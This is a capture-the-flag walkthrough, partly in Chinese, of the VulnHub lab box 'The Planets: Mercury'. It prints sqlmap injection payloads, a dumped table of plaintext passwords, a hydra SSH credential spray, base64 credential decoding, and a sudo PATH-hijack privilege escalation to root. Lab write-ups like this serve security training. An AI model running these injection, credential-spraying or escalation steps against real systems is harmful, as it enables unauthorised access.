






## Description

Mercury is an easier box, with no bruteforcing required.
There are two flags on the box: a user and root flag which include an md5 hash.
This has been tested on VirtualBox so may not work correctly on VMware.
Any questions/issues or feedback please email me at: SirFlash at protonmail.com

```
https://www.vulnhub.com/entry/the-planets-mercury,544/
```

---

## Recon

### Nmap

```console
VICTIM_IP=192.168.1.57
ports=$(nmap -v -n -T4 --min-rate=1000 -p- --open --reason $VICTIM_IP | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -n -v -sC -sV -Pn -p $ports -oA nmap/tcp-all $VICTIM_IP
```
From the nmap results, we can see that there is port 8080 which is a web service that running on the server and on port 22 is SSH.

### Website - TCP 8080

```
Hello. This site is currently in development please check back later.
```

nothing



### Directory brute force attack

```console
gobuster dir -u http://192.168.1.57:8080/ -w /usr/share/wordlists/dirb/common.txt -x .php -t 300
```

nothing

```console
nikto -h 192.168.1.57:8080
```

nikto 貌似扫描到相关路径

```console
/SilverStream
```

访问泄露了相关路径



```console
mercuryfacts/
```



源代码存在两个路径,其中之一疑似存在sql注入

```console
http://192.168.1.57:8080/mercuryfacts/1/

Fact id: 1. (('Mercury does not have any moons or rings.',),)

http://192.168.1.57:8080/mercuryfacts/todo

 Still todo:

    Add CSS.
    Implement authentication (using users table)
    Use models in django instead of direct mysql call
    All the other stuff, so much!!!


第二个路径 透露了后端使用的mysql数据库
```

```console
尝试注入单引号 '

http://192.168.1.57:8080/mercuryfacts/'/

报错

"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
```


## Foothold sql injection

###  sql injection

```console
sqlmap -r sqli.txt --batch -v 3
```

```console
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND 4638=4638/
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x71706a7171,(SELECT (ELT(6933=6933,1))),0x7171707871),6933)/
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://192.168.1.57:8080/mercuryfacts/1;SELECT SLEEP(5)#/
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.1.57:8080/mercuryfacts/1 AND (SELECT 6658 FROM (SELECT(SLEEP(5)))obGx)/
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://192.168.1.57:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x71706a7171,0x61764e6742596456757464436148705963575159555751644c79474344644759516e616266786e72,0x7171707871)-- -/
    Vector:  UNION ALL SELECT [QUERY]-- -
---
```

```console
sqlmap -r sqli.txt --batch -v 3 --dbs
mercury

sqlmap -r sqli.txt --batch -v 3 -D mercury --dump

Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

```
john
laura
sam
webmaster

johnny1987
lovemykids111
lovemybeer111
mercuryisthesizeof0.056Earths
```

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.57 ssh -t 4

[22][ssh] host: 192.168.1.57   login: webmaster   password: mercuryisthesizeof0.056Earths
```


### SSH as webmaster

```bash
ssh webmaster@192.168.1.57
mercuryisthesizeof0.056Earths
```




### user_flag.txt

```console
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

### Shell as linuxmaster

```
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):

webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

有一组貌似base64的凭据信息

```
echo bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==|base64 -d
mercurymeandiameteris4880km
```

尝试切换用户


```console
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster/mercury_proj$ cd
linuxmaster@mercury:~$ ls
linuxmaster@mercury:~$ id
uid=1002(linuxmaster) gid=1002(linuxmaster) groups=1002(linuxmaster),1003(viewsyslog)
```


## Shell as Root

### sudo -l

```bash
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

我没可以以root用户身份执行/usr/bin/check_syslog.sh文件

```shell
linuxmaster@mercury:~$ ls -la /usr/bin/check_syslog.sh
-rwxr-xr-x 1 root root 39 Aug 28  2020 /usr/bin/check_syslog.sh
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```
### Linux Privilege Escalation with PATH Variable

我们可以劫持此PATH导致权限提升

```bash
linuxmaster@mercury:~$ export PATH=./:$PATH
linuxmaster@mercury:~$ echo "sudo su" > tail
linuxmaster@mercury:~$ chmod +x tail 
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
root@mercury:/home/linuxmaster# cd
root@mercury:~# ls
root_flag.txt
```

```bash
也可以使用这种方式进行利用

ln -s /usr/bin/vim tail
export PATH=$(pwd):$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh

:!/bin/bash
```

### root_flag.txt

```console
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```